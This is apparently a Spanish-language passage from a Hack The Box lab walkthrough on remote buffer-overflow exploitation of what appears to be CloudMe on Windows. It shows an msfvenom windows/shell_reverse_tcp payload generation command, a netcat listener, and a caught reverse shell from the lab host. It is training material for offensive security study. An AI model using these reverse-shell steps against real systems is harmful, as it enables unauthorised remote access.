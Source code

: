 ```shell-session
0xRh4ps00dy@htb[/htb]$ ip -4 a

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    ...SNIP...
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    ...SNIP...
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    ...SNIP...
5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    inet 10.10.15.10/23 brd 10.10.15.255 scope global tun0
```

La IP que usaremos es `tun0` la IP de , ya que nuestra VM está en la misma `10.10.` subred.

Nota: Debes estar conectado a la VPN para poder interactuar con el servidor remoto, así que descarga la clave de VPN en caso de que quieras ejecutar el exploit desde tu propia máquina. La instancia de PwnBox ya está conectada a la VPN, por lo que deberías poder conectarte al servidor remoto.

A continuación, generaremos el shellcode que nos enviará un shell inverso, el cual podemos obtener con el `windows/shell_reverse_tcp` payload en `msfvenom`, de la siguiente manera:

```shell-session
0xRh4ps00dy@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python'

...SNIP...
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
...SNIP...
```

Podemos modificar nuestro exploit copiando la salida y usándola en la `exploit()` función de la `buf` variable.
## Explotación remota

Después de esto, podemos iniciar un `netcat` listener para recibir el shell inverso, de la siguiente manera:

```shell-session
0xRh4ps00dy@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

Una vez que estemos escuchando, podemos ejecutar nuestra carga útil `python win32bof_exploit_remote.py` y esperar a que el servidor remoto nos envíe un shell inverso si nuestra explotación fue exitosa.

```shell-session
0xRh4ps00dy@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.15.10] from (UNKNOWN) [10.10.10.10] 64539
Microsoft Windows [Version 10.0.19042.928]
(c) Microsoft Corporation. All rights reserved.

C:\Users\htb-student\AppData\Local\Programs\CloudMe\CloudMe>whoami
whoami
htb-student
```
